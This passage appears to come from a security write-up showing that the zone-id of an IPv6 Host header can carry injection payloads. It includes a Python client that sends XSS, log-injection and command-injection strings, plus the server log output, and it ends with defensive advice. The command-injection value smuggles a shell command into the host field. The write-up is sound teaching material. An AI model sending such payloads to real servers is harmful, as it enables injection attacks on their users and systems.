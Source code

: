 ```python
    with make_server('::1', 8000, application, WSGIServerIPv6) as httpd:
        print("Serving on port 8000...")
        httpd.serve_forever()
```

#### Client

```python
import socket

for payload in (
    "<img onerror=\"alert(1)\">HTML injection",
    "log injection: malicious log !",
    "code injection\" | echo \"Malicious payload"
):
    s = socket.socket(socket.AF_INET6, socket.SOCK_STREAM)
    s.connect(("::1", 8000))
    request = f"GET / HTTP/1.1\r\nHost: [::1%{payload}]\r\n\r\n".encode()
    s.sendall(request)
    response = True
    while response:
        response = s.recv(4096)
        print(response.decode().strip())
    s.close()
```

#### Demonstrations

##### Server output

```
::1 - - [01/Mar/2025 14:25:32] "GET / HTTP/1.1" 200 252
WARNING:root:Request for ::1%<img onerror="alert(1)">HTML injection
Ping request could not find host ::1%<img onerror=alert(1)>HTML injection. Please check the name and try again.
::1 - - [01/Mar/2025 14:26:29] "GET / HTTP/1.1" 200 249
WARNING:root:Request for ::1%log injection: malicious log !
Ping request could not find host ::1%log injection: malicious log !. Please check the name and try again.
::1 - - [01/Mar/2025 14:26:29] "GET / HTTP/1.1" 200 241
WARNING:root:Request for ::1%code injection" | echo "Malicious payload
"Malicious payload"
::1 - - [01/Mar/2025 14:26:29] "GET / HTTP/1.1" 200 252
```

We have three vulnerabilities exploited: 

1. XSS (steal user or administrator sessions)
2. Log injection (hide malicious events, RCE with PHP or templating system, ...)
3. Code injection (execute malicious code, in my demonstration it's a system command but similar vulnerabilities can use any other syntax: PHP, SQL, Javascript, Python, ...)

## Conclusion

 - **Don't trust any field including valid and parsed host or IP**
 - If you are a developper speak about these problems with your colleagues
 - If you are `DevSecOps` consider the *host* as an user input (even if you use a secure parser)
